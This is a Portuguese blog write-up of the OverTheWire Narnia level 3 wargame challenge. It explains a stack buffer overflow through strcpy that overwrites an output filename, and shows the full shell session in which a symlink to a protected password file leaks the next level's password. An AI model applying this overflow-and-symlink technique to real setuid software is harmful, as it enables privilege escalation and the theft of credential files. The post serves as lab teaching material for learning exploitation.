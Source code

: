 ```yaml
---
layout: default
title: Level 3 - Corrompendo variáveis locais na stack [OverTheWire CTF – Narnia]
date: 2017-01-07 15:55
author: obrerodrigues
comments: true
categories: [CTFs]
tags: [Narnia OverTheWire]
---
```

<ul>
    <li><a href="https://brerodrigues.github.io/ctfs/level-0-overthewire-ctf-narnia-write-up">Level 0</a></li>
    <li><a href="https://brerodrigues.github.io/ctfs/level-1-overthewire-ctf-narnia-write-up">Level 1</a></li>
    <li><a href="https://brerodrigues.github.io/ctfs/level-2-overthewire-ctf-narnia-write-up">Level 2</a></li>
</ul>

Dando seguimento a série de write ups do <a href="http://overthewire.org/wargames/narnia/">Narnia</a>, chegou a hora de exploitar o level3.

```
narnia3@melinda:/narnia$ ./narnia3
usage, ./narnia3 file, will send contents of file 2 /dev/null
```

Ele pega o primeiro argumento como o caminho para um arquivo e envia o conteúdo desse arquivo para <a href="https://pt.wikipedia.org/wiki//dev/null">/dev/null</a>? Não parece um programa muito útil.

Antes de qualquer análise, pensei que seria óbvio que, por ter permissões de narnia4, narnia3, de alguma forma, iria ler o conteúdo de <strong>/etc/narnia_pass/narnia4</strong> e nos passar ao invés de jogar em /dev/null e não ajudar ninguém.

Mas como o código fonte está bem perto de nós, vamos observa-lo e descobrir se há alguma forma de explorar esta habilidade de leitura de arquivos.

<script src="https://gist.github.com/anonymous/2978f3a6b1db2a77494d01c58de34384.js"></script>

Nada complexo. Mas vamos por partes.

```
int  ifd,  ofd;
char ofile[16] = /dev/null;
char ifile[32];
char buf[32];
```

As duas primeiras variáveis do tipo inteiro declaradas em main são <strong>ifd</strong> e <strong>ofd</strong>. Como o sugestivo nome indica, servem como <a href="https://en.wikipedia.org/wiki/File_descriptor">file descriptors</a> tanto para o arquivo de entrada, quanto para o de saída.

Na segunda linha vemos um vetor de caracteres chamado <strong>o</strong><del datetime="2017-01-07T14:35:02+00:00">utput</del><strong>file</strong> que guarda o valor "/dev/null". É bem óbvio a razão para a existência do mesmo.

Na terceira, <strong>i</strong><del datetime="2017-01-07T14:35:02+00:00">nput</del><strong>file</strong> é mais um vetor de caracteres, com espaço para 32 dos mesmos, que não é inicializado. É nessa variável que mais tarde o código guardará o nome do arquivo de entrada, ou seja, nosso argumento para o programa.

A sexta e última variável declarada na última linha do código acima é outro vetor de caracteres chamado <strong>buf</strong>. Ele vai ser usado para guardar o conteúdo do arquivo de entrada e depois escrever este conteúdo no arquivo de saída.

Logo depois das declarações de variáveis, há um simples if que verifica se algum argumento foi passado.

```
    if(argc != 2){
        printf(usage, %s file, will send contents of file 2 /dev/null\n,argv[0]);
        exit(-1);
    }
```

A parte seguinte do código usa a função amiga dos buffer overflow e inimiga dos dados guardados na stack, <strong>strcpy</strong>, que sem nenhum cuidado vai copiar argv[1] direto para ifile. E, depois de fazer essa operação perigosa, usa os file descriptors para checar se há permissão de escrita e leitura em ofile, e leitura em ifile.

```
     /* open files */
     strcpy(ifile, argv[1]);
     if((ofd = open(ofile,O_RDWR)) 0 ){
         printf(error opening %s\n, ofile);
         exit(-1);
     }
     if((ifd = open(ifile, O_RDONLY)) 0 ){
         printf(error opening %s\n, ifile);
         exit(-1);
     }
 ```

Para finalizar, a última parte da função lê o ifile e copia o conteúdo para buf e logo depois escreve de buf para ofile. Fechando os arquivos logo depois.

```
    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf(copied contents of %s to a safer place... (%s)\n,ifile,ofile);

    /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
    }
 ```

Depois de compreender todo o código, pareceu que para ganhar a flag bastava estourar ifile passando um argumento do mal que executasse /bin/sh assim como foi feito no <a href="https://brerodrigues.github.io/ctfs/level-2-overthewire-ctf-narnia-write-up">último chall</a>. Sei bem que não faria sentido que dois challs seguidos tivessem a mesma resolução, <a href="https://brerodrigues.github.io/category/CTFs">mas já aconteceu coisa parecida antes</a>, então não custava tentar.

Mas essa ideia logo se mostrou impossível assim que mandei um checksec com o binário carregado no gdb aprimorado pelo peda.

```
narnia3@melinda:/tmp/2017$ gdb -q /narnia/narnia3
Reading symbols from /narnia/narnia3...(no debugging symbols found)...done.
(gdb) source /usr/local/peda/peda.py
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : disabled
```

O bit NX, que deriva da expressão em inglês No eXecute, é uma tecnologia usada em alguns processadores e sistemas operacionais que separa de modo rígido as áreas de memória que podem ser usadas para execução de código daquelas que só podem servir para armazenar dados. Ele é usada com propósitos de segurança.

Uma área da memória que esteja marcada com o atributo NX pode ser usada somente para guardar dados, então quaisquer instruções que estejam nela não serão executadas. A técnica serve para prevenir certos tipos de ataques feitos por malwares, quando o programa malicioso insere instruções na área de dados de outro programa, tentando que elas sejam executadas a partir de lá. Esse tipo de ataque é chamado de buffer overflow.

<a href="https://pt.wikipedia.org/wiki/Bit_NX">https://pt.wikipedia.org/wiki/Bit_NX</a></blockquote>

Isso significa que explorar o espaço da stack para guardar um shellcode e tentar executa-lo não irá funcionar.

E agora?

Em outros write ups já falei sobre a famigerada stack. Se você não faz ideia do que seja, recomendo que leia o write up do <a href="https://brerodrigues.github.io/ctfs/level-0-overthewire-ctf-narnia-write-up">level 0</a> do próprio narnia que acredito ter conteúdo suficiente para que você me acompanhe. Mas, como sempre faço, vou deixando links pelo meio do post e te dando a ideia de usar o <a href="https://duckduckgo.com/">Google</a> para ir tirando dúvidas.

No ínicio do processo, a função main vai ser executada e jogar suas variáveis na stack:

<img class="size-full wp-image-1410" src="https://image.ibb.co/ceNeHJ/narnia3_1.png" alt="Um lindo desenho." width="147" height="147" />

Como sabemos, as variáveis não inicializadas apenas terão espaço reservado, por isso fiz referência a elas pelo nome e, no caso de ofile, usei seu valor "/dev/null".

E para não ficar apenas com essa abstração horrível em forma de desenho mais horrível ainda, te recomendo <a href="https://en.wikibooks.org/wiki/X86_Disassembly/Functions_and_Stack_Frames">este link</a> para que entendas bem melhor do que estou e continuarei falando.

Acredito que você se lembre de quando falei de strcpy. Na 22º linha do código do chall, seja lá qual for o tamanho do argumento que passarmos, ele será copiado para o espaço reservado para ifile. E se este argumento tiver mais de 32 caracteres, os dados irão invadir o espaço de ofile (e o que mais vinher depois, como ofd, ifd...).

Sabendo disso você até pode resolver o chall sozinho. Vá lá e só volte aqui para comparar soluções.

Tendo o poder de corromper o valor de ofile guardado no stack, a primeira ideia é a de modificar esse valor para um arquivo válido e sob nosso controle.

Tomei a liberdade fazer uma pequena alteração do código do chall só para ver isso acontecendo de forma mais prática, observe as inserções na linha 21 e 27:

<script src="https://gist.github.com/anonymous/b78a2c589773cd2c2db5034257e38441.js"></script>

Agora compilando e executando:

```
suamae@yourbox:~/tmp$ gcc narnia3.c -o narnia3
suamae@yourbox:~/tmp$ ./narnia3 `python -c 'print B*32 + ownded'`
Antes: /dev/null
error opening BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBownded
Depois: ownded
```

Exatamente o comportamento esperado.

Exploitation time!

Criei uma pasta em /tmp e dentro dela criei um link simbólico para /etc/narnia_pass/narnia4. O nome desse link era formado pelos 32 B's necessários para preencher todo o espaço de ifile + flag (que é o nome do arquivo que também criei para que o processo escrevesse a flag).

```
narnia3@melinda:~$ cd /narnia
narnia3@melinda:/narnia$ mkdir /tmp/rddi
narnia3@melinda:/narnia$ ln -s /etc/narnia_pass/narnia4 /tmp/rddi/BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBflag
narnia3@melinda:/narnia$ cd /tmp/rddi
narnia3@melinda:/tmp/rddi$ touch flag
narnia3@melinda:/tmp/rddi$ /narnia/narnia3 `python -c 'print B*32 + flag'`
copied contents of BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBflag to a safer place... (flag)
narnia3@melinda:/tmp/rddi$ cat flag
c2ljaw==
▒▒▒▒▒4▒▒▒▒_▒▒}0,narnia3@melinda:/tmp/rddi$
```
